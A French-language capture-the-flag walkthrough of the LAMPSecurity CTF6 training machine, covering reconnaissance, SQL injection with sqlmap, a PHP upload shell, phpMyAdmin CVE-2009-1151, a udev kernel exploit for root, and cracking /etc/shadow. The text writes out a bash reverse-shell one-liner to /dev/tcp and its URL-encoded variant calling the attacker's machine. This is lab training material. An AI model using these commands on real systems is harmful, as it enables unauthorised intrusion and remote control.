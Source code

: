 ```yaml
---
description: 'Walkthrough de la machine LAMPSecurity: CTF6'
---
```


# LAMPSecurity: CTF6

## Détails de la machine

**Nom :** LAMPSecurity: CTF6\
**Date de sortie :** 29 Juin 2009\
**Lien de téléchargement :** [http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity\_ctf6.zip/download](http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/CTF6/lampsecurity\_ctf6.zip/download)\
**Niveau :** Facile\
**Objectif(s) :** obtenir un "root"\
**Description :**`The LAMPSecurity project is an effort to produce training and benchmarking tools that can be used to educate information security professionals and test products. Please note there are other capture the flag exercises (not just the latest one). Check the SourceForge site to find other exercises available (http://sourceforge.net/projects/lampsecurity/files/CaptureTheFlag/).`\
`These exercises can be used for training purposes by following this documentation. Alternatively you may wish to test new tools, using the CTF virtual machines as targets. This is especially helpful in evaluating the effectiveness of vulnerability discovery or penetration testing tools.`

## Reconnaissance

Votre cible, si vous l'acceptez sera désignée par `netdiscovery` :

![](../../../.gitbook/assets/01b81fb29800416a48b95b8bf4067734.png)

On scanne les services de la belle, comme d'habitude avec `nmap` :

![](../../../.gitbook/assets/0d2df19ee103a6d59c16b63c2414b097.png)

Rien de très particulier ici, du SSH, un serveur web, un service MySQL sur le port 3306. A noter tout de même un serveur web sur le port 443.

### Serveur HTTP (port 80)

Tout en commençant la reconnaissance manuelle on peut tout de suite lancer un `nikto` dont voici les résultats :

![](../../../.gitbook/assets/5bb8c42e703fa254522f24bf8e9ef5f2.png)

Plusieurs URLs intéressants à ne pas oublier de visiter après notre petite reconnaissance :

* /files
* /lib
* /mail
* /phpmyadmin
* /sql

La page d'accueil du serveur HTTP présente la page d'un revendeur de widgets. On remarque bien évidemment les quelques messages postés par l'utilisateur "admin", un lien vers un webmail, des informations sur les technologies utilisées (PHP, MySQL, CenOS) et pour terminer des noms/prénoms du staff :

![](../../../.gitbook/assets/77b6af492db3c6a94a786f674f5a3463.png)

Ni une ni deux, l'injection SQL présente au niveau du paramètre "id" permettant d'identifier un billet :

![](../../../.gitbook/assets/f92bbcc2d2a54032c51cad3570a710b7.png)

Les différentes URLs sont intéressantes mais sans doute facultatives : on y retrouve un script SQL qui permet de connaitre des informations sur la base de données (mais bon on va pas se mentir `sqlmap` en aura pas besoin), un répertoire d'images, le phpMyAdmin ou encore le client mail.

#### phpMyAdmin

Le phpMyAdmin disponible sur le serveur est une version 3.0.0. Il est possible de savoir cela en allant vérifier l'URL http://192.168.1.29/phpmyadmin/README. Cette version est vulnérable à une RCE :

![](../../../.gitbook/assets/906bd4b1971cd3b24146d53e51a32111.png)

### Serveur HTTP (port 443)

Il s'agit en fait du même si que celui présent sur le port 80, déçu :disappointed: .

## Exploitation

### Injection SQL

Ici on ne s'embête pas, `sqlmap` à la rescousse. Il y a deux bases intéressantes, la base "cms" qui correspond au site web, ainsi que la base "roundcube" qui correspond au webmail :

![](../../../.gitbook/assets/e03d1b4b831468edb37511112361e8de.png)

Pas de mot de passe de disponible dans la table "users" de la base de données "roundcube", mais on récupère à la place le mot de passe de mysql :

![](../../../.gitbook/assets/84c1dc7adcaefe8bfcfcdfa9d6102cb6.png)

### Injection de code

On s'authentifie grâce à notre compte fraîchement récupéré, puis nous voyons qu'il est possible d'ajouter un événement via le bouton "Add Event". Sans le moindre effort apparaît déjà deux XSS stockées grâce au champ "Titre" et "Description" :

{% hint style="warning" %}
`Ma machine ayant plantée à ce moment dû à un effet kiss kool ayant une origine inconnue, l'IP de la victime devient maintenant 192.168.1.30`
{% endhint %}

On continue avec l'option de joindre un fichier avec l’événement (ici qui contient un script PHP appelant la méthode `phpinfo()`) :

![](../../../.gitbook/assets/894c71013775256a8a0b8b4b83816b80.png)

Il suffit ensuite d'aller directement sur le lien de l'image et :

![](../../../.gitbook/assets/59c2f02d7b413d2a39e0aba08583bc3d.png)

Vous désirez bien un peu de `msfvenom` ensuite ?

![](../../../.gitbook/assets/29b9c5598bb7347964faa9cde9fe5d6b.png)

Nous voici dans la place avec notre shell limité :

![](../../../.gitbook/assets/7658ea9a3c18402e3e64b74f31c045b5.png)

### PhpMyAdmin (CVE-2009-1151)

Etant donné que nous avions déjà identifié l'injection de code au niveau du phpMyAdmin, je me suis amusé à l'exploiter également. Il suffit tout d'abord d'exécuter l'exploit "8921.sh" disponible, puis de renseigner l'URL suivante avec la commande désirée :

![](../../../.gitbook/assets/5a42613d2a939a338918aa8fd4338fc7.png)

J'ai légèrement galéré pour récupérer un shell propre, car netcat ne semblait pas passer. J'ai alors utilisé `bash` avec la commande suivante : `bash -i >& /dev/tcp/adresse_ip/port 0<&1` :

Pour cela que cela fonctionne via le navigateur j'ai tout d'abord encodé le tout en encodage URL soit :\
c=%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%2e%31%30%33%2f%35%35%35%35%20%30%3e%26%31 :

![](../../../.gitbook/assets/b72bd4009a7cff516bf1eb8721e34099.png)

Côté Kali un simple `netcat` en écoute et lors de l'exécution de l'exploit :

![](../../../.gitbook/assets/9b54071bf95d65cd25cf302301f3610d.png)

## Élévation de privilèges

On récupère la version du noyau afin de voir s'il est possible de l'exploiter :

![](../../../.gitbook/assets/ae79dd5de8576224129892d479c3555d.png)

Bonne nouvelle, une recherche sous Google nous indique que la version 2.6 de Linux est vulnérable à la CVE-2009-1185. Il s'agit en fait d'une vulnérabilité du gestionnaire de périphériques udev qui accepte des messages NETLINK de la part des utilisateurs locaux alors qu'il ne devrait les accepter seulement s'ils proviennent de l'espace noyau. On récupère donc l'exploit ([https://www.exploit-db.com/exploits/8478](https://www.exploit-db.com/exploits/8478)) puis on l'exécute :

![](../../../.gitbook/assets/770fdc869b87171154e9bb6fa46196f1.png)

Nous sommes "root", travail terminé

## Conclusion

Cette machine suit les mêmes règles que ces petites sœurs, et cela nous va très bien. Rien de très difficile à part l'exploit qui est un peu capricieux. Une fois "root" j'ai récupéré le fichier "/etc/shadow" afin de voir si certains mots de passe étaient guessable ou bruteforcable par exemple (dans le cas où on serait passé à côté de la faille web) :

![](../../../.gitbook/assets/81f6ff36c457303f43ed188bb1ee9946.png)

Certains comptes étaient donc bruteforcables car les mots de passe étaient présents dans le dictionnaire "rockyou.txt".

